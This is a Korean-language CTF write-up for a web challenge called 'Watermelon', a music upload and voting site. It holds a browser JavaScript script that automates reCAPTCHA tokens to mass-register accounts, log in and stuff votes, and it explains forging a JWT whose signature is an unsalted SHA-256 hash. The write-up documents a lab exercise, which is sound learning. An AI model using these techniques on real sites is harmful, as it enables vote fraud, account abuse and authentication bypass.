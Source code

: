 # Watermelon
> ## Overview  
음악을 업로드하는 기능과 투표를 할 수 있는 기능이 있다.  
투표는 계정당 한 번만 가능하다. 회원가입과 로그인에는 캡챠가 작동하고 있다.  
JWT기반 인증을 사용하고 있다.  
> ## Solve
회원가입하여 로그인하여 JWT 토큰을 디코딩하여 아래의 값을 얻었다.

```  
{"alg":"sha256","typ":"JWT"}.{"user_no":7374,"id":"workerholic","nickname":"workerholic","iat":1577621349}.32f6c091cf3e50ce7ac64fd042ef309e438a58454e30e61bf8ee7dd1dbd24390
```
이를통해 user_no를 조작하여 투표를 계속할 수 있게 해볼려고 시도해봤으나 jwt의 signature 부분이 계속 틀려서 포기했다.  
다음 생각한 방법은 회원가입하고 로그인하고 투표하는 동작을 자동으로 할 수 있게 프로그램을 만들어서 투표 수를 높이는거였다.  
그런데 회원가입과 로그인 기능에는 reCaptcha가 작동하고 있었다. 
```
<script src="https://www.google.com/recaptcha/api.js?render=6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z"></script>
<script>
grecaptcha.ready(function() {
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z', {action: 'homepage'}).then(function(token) {
        document.getElementById('g-recaptcha-response').value = token;
    });
});
</script>
```  
스크립트를 통해 받아온 token 값을 g-recaptcha-response에 담아 POST로 같이 전송하는 방식이다.  
이 token값은 요청마다 바뀌었다.  
브라우저에서 자바스크립트를 실행해서 값을 받아오기 때문에
python 코드 상에서 해당 token 값을 받아 올 수는 없었다.   
파이선으로 해당 코드를 대체하여 token 값을 받아올 방법을 못 찾고  
그냥 해당 api가 불러와진 회원가입 페이지에서 개발자 도구를 통해 자바스크립트로 코드를 작성하여 실행시켯다.  
```
function register(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&nickname="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signup.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(register(count+1));
    });
}

function login(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signin.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(login(count+1)).then(vote());
    });
}

function vote(){
    var xhttp = new XMLHttpRequest();
    var music_no = 555;
    var param = "music_no="+music_no;
    xhttp.open("POST", "http://ch4n3.me:8080/xmas/vote.php");
    xhttp.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhttp.send(param);
    var work = xhttp.responseText;
    console.log(work);
}
```
처음에 register()와 login()에서 fetch()말고 xhttp.send()로 요청을 계속 보내니 중간에 잘보내다가 요청이 pending 상태에 걸려서 에러가 발생했다. 너무 화가났다. 쨋든 이렇게 동작하게 코드를 만들어서
```
register(1122);
login(1122);
```
동작시키면 아이디를 만들고 그 아이디로 로그인해서 투표하는걸 반복하게된다. 그래서 투표 수를 계속 높여나가다 투표받은 음악을 올린 계정으로 로그인하니 플래그가 뙇~ 멍청하게 자알~ 풀었다.  
> ## Real Solve
해당 페이지의 robots.txt에 코드가 올라와있는 github 주소가 있었다.
jwt 토큰을 생성하는 페이지를 보니 header 부분과 payload 부분을 sha256으로 해쉬한게 signature였다......  
그리하여 user_no를 변경하고 이를 알맞게 해쉬하여 signature를 붙여서 인코딩해주면 jwt가 정상적으로 인식되어 투표할 수 있었다.  투표는 1226표 이상 받으면 flag가 출력되게 되어있었다.
